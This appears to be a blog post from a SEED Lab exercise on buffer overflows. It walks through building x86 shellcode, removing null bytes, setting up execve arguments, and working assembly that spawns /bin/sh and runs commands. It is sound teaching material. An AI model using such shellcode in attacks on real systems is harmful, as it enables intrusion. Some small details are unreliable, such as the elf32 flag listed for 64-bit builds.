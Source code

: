 ```yaml
---
layout: post
title: Buffer Overflow - Part 1
excerpt:
categories: [assembly, shellcode]
---
```


In this post, I aim to document my findings and observations while performing a SEED Lab.


A shellcode is a piece of code that is used to spawn a command shell or execute specific commands. It is usually written in assembly (a low-level programming language that is specific to a particular computer architecture or processor). Because computers can either be 32-bit or 64-bit, shellcodes will have to be written for specific architectures, however, 64bit computers can always run 32-bit shellcodes.


Given an assembly code `test.s`, such code can be compiled using nasm 

- on linux:

  - `nasm -f elf32 test.s -o test.o` (for 32-bit)
 
  - `ld -m elf_i386 test.o -o test` (for 32-bit)
 
  - `nasm -f elf32 test.s -o test.o` (for 64-bit)
 
  - `ld -m elf_x86_64 test.o -o test` (for 64-bit)

- on windows:

  - `nasm -f win32 test.s -o test.o` (for 32-bit)
 
  - `nasm -f win64 test.s -o test.o` (for 64-bit)
 
  - `gcc test.obj -o test.exe`


In a buffer overflow attack, we need to make use of the machine code, not the assembly code or executable as we need to include the shellcode in our attacking
code. Thus we need to extract the machine code from the executable file or the object file. One way is to use the objdump command.

- `objdump -Mintel --disassemble test.o`

To make it easy to copy the machine code, we can perform further processing on the output.

- `objdump -Mintel --disassemble test.o | cut -f2 | sed 's/ //g' | tr -d '\n'`


### Using the shellcode in attacking code.

In many cases of buffer-overflow, the vulnerability is caused by the strcpy() function. For the strcpy() function, zero is considered as the end of the string. Therefore, if there is a zero in the middle of the shellcode, the strcpy() fuction will end abruptly, causing the attack to fail. It is therefore necessary that there is no zero in the machine code.

There are many techniques that can get rid of zeros from the shellcode:

- xoring the 32-bit registers and pushing it to the stack

  ```
  xor eax eax
  push eax
  ```

- assigning an 8-bit number to one of the 8-bits registers

  ```
  xor eax eax
  mov al, 0x99
  push eax
  ```

- using bit-shift to replace filler characters i.e. to turn "xyz#" into "xyz\0"

  ```
  ;for computers that are little endian i.e. like reading from right to left
  mov eax "xyz#"
  shl eax, 8
  shr eax, 8
  push eax

  ;for computers that are big endian i.e. like reading from left to right
  mov eax "xyz#"
  shr eax, 8
  shl eax, 8
  push eax
  ```

####  Providing Arguments for System Calls

Linux provides the programmer with system calls that can be easily executed from assembly. These system calls are triggered by using interrupts. `int 0x80` is used to tell the linux kernel to use the EAX, EBX, ECX, and EDX registers to call a function.

When making a system call the 32-bit registers are interpreted as follows:
EAX: this is used to store the function to be called
EBX: this is used to store the first argument to the function
ECX: this is used to store the second argument to the function
EDX: this is used to store the third argument to the function

So in the case of execve we have the function definition as:

```
execve(const char *pathname, char *const _Nullable argv[],
                  char *const _Nullable envp[])
```

This means EAX would store the execve function itself (execve has a system call number of 11), EBX would store the pathname (which in this case is /bin/sh), ECX would store argv[] (which includes the pathname, the arguments, and a null terminator), and EDX would store envp[] (which is the environment variables).

<details>
<summary>Seed lab code</summary>
<pre>
section .text
  global _start
    _start:
      ; Store the argument string on stack
      xor eax, eax
      push eax ; Use 0 to terminate the string
      push "//sh" ;
      push "/bin"
      mov ebx, esp ; Get the string address
      ; Construct the argument array argv[]
      push eax ; argv[1] = 0
      push ebx ; argv[0] points to the cmd string
      mov ecx, esp ; Get the address of argv[]
      ; For environment variable
      xor edx, edx ; No env variable
      ; Invoke execve()
      xor eax, eax ; eax = 0x00000000
      mov al, 0x0b ; eax = 0x0000000b
      int 0x80
</pre>
</details>

<details>
<summary>My solution to <code>/bin/sh -c "ls -la"</code></summary>
<pre>
section .text
  global _start
    _start:
      ; Store the "ls -la" string on stack
      mov edx, "la  "
      shl edx, 16
      shr edx, 16
      push edx
      push "ls -"
      mov edx, esp     ; Get the string address for "ls -la"
      
      ; Store the "-c" string on stack
      mov ecx, "-c  "
      shl ecx, 16
      shr ecx, 16
      push ecx
      mov ecx, esp     ; Get the string address for "-c"
      
      ; Store the "/bin/sh" string on stack
      mov ebx, "/sh "
      shl ebx, 8
      shr ebx, 8
      push ebx
      push "/bin"
      mov  ebx, esp     ; Get the string address for "/bin/sh"

      ; Construct the argument array argv[]
      xor eax, eax      ; ensure eax = 0x00000000
      push eax          ; argv[3] = 0
      push edx          ; argv[2] points to "ls -la"
      push ecx          ; argv[1] points to "-c"
      push ebx          ; argv[0] points to "/bin/sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 
      xor  edx, edx     ; No env variables 

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
</pre>
</details>

<details>
<summary>My solution to <code>/usr/bin/env</code> (supplying environment variables)</summary>
<pre>
section .text
  global _start
    _start:    
      ; Store the environment variable string on the stack
      xor eax, eax
      push eax
      push "1234"
      push "aaa="
      mov eax, esp      ; Get the string address for "aaa=1234"
      
      xor ebx, ebx
      push ebx
      push "5678"
      push "bbb="
      mov ebx, esp      ; Get the string address for "bbb=5678"
      
      mov ecx, "4   "
      shl ecx, 24
      shr ecx, 24
      push ecx
      push "=123"
      push "cccc"
      mov ecx, esp      ; Get the string address for "cccc=1234"
   
      ; For environment variable
      xor  edx, edx     ; edx = 0
      push edx          ; argv[3] = 0
      push eax          ; argv[2] points to "aaa=1234"
      push ebx          ; argv[1] points to "bbb=5678"
      push ecx          ; argv[0] points to "cccc=1234"
      mov edx, esp      ; Get the address of env[]
      
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "/env"
      push "/bin"
      push "/usr"
      mov  ebx, esp     ; Get the string address

      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/usr/bin/env"
      mov  ecx, esp     ; Get the address of argv[]

      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
</pre>
</details>

#### Using Code Segment

Rather than dynamically constructing all the necessary data structures on the stack, so their addresses can be obtained from the stack pointer `esp`, data can be stored in the code region, and its address is obtained via the function call mechanism.



